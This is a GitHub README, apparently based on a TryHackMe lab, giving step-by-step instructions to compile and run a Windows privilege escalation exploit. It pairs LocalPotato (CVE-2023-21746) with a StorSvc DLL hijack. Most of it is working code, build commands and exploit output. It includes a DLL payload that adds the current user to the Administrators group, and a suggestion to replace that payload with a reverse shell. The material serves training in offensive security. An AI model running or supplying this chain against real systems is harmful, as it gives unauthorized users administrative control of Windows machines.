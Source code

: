 # LocalPotato
All the information to compile and execute these binaries comes from the [TryHackMe room for LocalPotato](https://tryhackme.com/room/localpotato)

## Compiling the Exploit

To make use of this exploit, you will first need to compile both of the provided files:

- **SprintCSP.dll**: This is the missing DLL we are going to hijack. The default code provided with the exploit will run the whoami command and output the response to `C:\Program Data\whoamiall.txt`. We will need to change the command to run a reverse shell.
- **RpcClient.exe**: This program will trigger the RPC call to `SvcRebootToFlashingMode`. Depending on the Windows version you are targeting, you may need to edit the exploit's code a bit, as different Windows versions use different interface identifiers to expose `SvcRebootToFlashingMode`.

Let's start by dealing with RpcClient.exe. As previously mentioned, we will need to change the exploit depending on the Windows version of the target machine. To do this, we will need to change the first lines of `RpcClient\RpcClient\storsvc_c.c` so that the correct operating system is chosen. We can use Notepad++ by right-clicking on the file and selecting Edit with Notepad++. Since our machine is running Windows Server 2019, we will edit the file to look as follows:

    #if defined(_M_AMD64)

    //#define WIN10
    //#define WIN11
    #define WIN2019
    //#define WIN2022

    ...

This will set the exploit to use the correct RPC interface identifier for Windows 2019. Now that the code has been corrected, let's open a developer's command prompt (Visual Studio 2022) and build the project by running the following commands:

    C:\> cd RpcClient
    C:\RpcClient> msbuild RpcClient.sln
    ... some output ommitted ...

    Build succeeded.
      0 Warning(s)
      0 Error(s)

    C:\RpcClient> move x64\Debug\RpcClient.exe C:\Users\user\Desktop\
    
The compiled executable will be found on your desktop.

Now to compile SprintCSP.dll, we only need to modify the `DoStuff()` function on `SprintCSP\SprintCSP\main.c` so that it executes a command that grants us privileged access to the machine. For simplicity, we will make the DLL add our current user to the Administrators group. Here's the code with our replaced command:

    void DoStuff() {

      // Replace all this code by your payload
      STARTUPINFO si = { sizeof(STARTUPINFO) };
      PROCESS_INFORMATION pi;
      CreateProcess(L"c:\\windows\\system32\\cmd.exe",L" /C net localgroup administrators user /add",
          NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, L"C:\\Windows", &si, &pi);

      CloseHandle(pi.hProcess);
      CloseHandle(pi.hThread);

      return;
    }
    
We now compile the DLL and move the result back to our desktop:

    C:\> cd SprintCSP\

    C:\SprintCSP> msbuild SprintCSP.sln
    ... some output ommitted ...

    Build succeeded.
        6 Warning(s)
        0 Error(s)

    C:\SprintCSP> move x64\Debug\SprintCSP.dll C:\Users\user\Desktop\
    
## Running the exploit
To successfully exploit StorSvc, we need to copy SprintCSP.dll to any directory in the current PATH. We can verify the PATH by running the following command:

        C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path
            Path    REG_EXPAND_SZ    %SystemRoot%\system32;%SystemRoot%;%SystemRoot%\System32\Wbem;
                                     %SYSTEMROOT%\System32\WindowsPowerShell\v1.0\;%SYSTEMROOT%\System32\OpenSSH\;
                                     C:\Program Files\Amazon\cfn-bootstrap\

We will be targeting the %SystemRoot%\system32 directory, which expands to C:\windows\system32. You should be able to use any of the directories, however. Just to be sure, we can try to copy the DLL directly into system32, but our user won't have enough privileges to do it. By using LocalPotato, we can copy SprintCSP.dll into system32 even if we are using an unprivileged user:

        C:\Users\user\Desktop> LocalPotato.exe -i SprintCSP.dll -o \Windows\System32\SprintCSP.dll
 
         LocalPotato (aka CVE-2023-21746)
         by splinter_code & decoder_it
 
        [*] Objref Moniker Display Name = objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGAQAAAAAAAABTIvXDdMIUbap+AepkeJ/yAcgAAMwIwArWEKZ3vRDmhjkAIwAHAEMASABBAE4ARwBFAC0ATQBZAC0ASABPAFMAVABOAEEATQBFAAAABwAxADAALgAxADAALgA0ADAALgAyADMAMQAAAAAACQD//wAAHgD//wAAEAD//wAACgD//wAAFgD//wAAHwD//wAADgD//wAAAAA=:
        [*] Calling CoGetInstanceFromIStorage with CLSID:{854A20FB-2D44-457D-992F-EF13785D2B51}
        [*] Marshalling the IStorage object... IStorageTrigger written: 100 bytes
        [*] Received DCOM NTLM type 1 authentication from the privileged client
        [*] Connected to the SMB server with ip 127.0.0.1 and port 445
        [+] SMB Client Auth Context swapped with SYSTEM
        [+] RPC Server Auth Context swapped with the Current User
        [*] Received DCOM NTLM type 3 authentication from the privileged client
        [+] SMB reflected DCOM authentication succeeded!
        [+] SMB Connect Tree: \\127.0.0.1\c$  success
        [+] SMB Create Request File: Windows\System32\SprintCSP.dll success
        [+] SMB Write Request file: Windows\System32\SprintCSP.dll success
        [+] SMB Close File success
        [+] SMB Tree Disconnect success

With our DLL in place, we can now run RpcClient.exe to trigger the call to SvcRebootToFlashingMode, effectively executing the payload in our DLL:

        C:\Users\user\Desktop> RpcClient.exe
        [+] Dll hijack triggered!
        
To verify if our exploit worked as expected, we can check if our user is now part of the Administrators group:

        C:\Users\user\Desktop> net user user
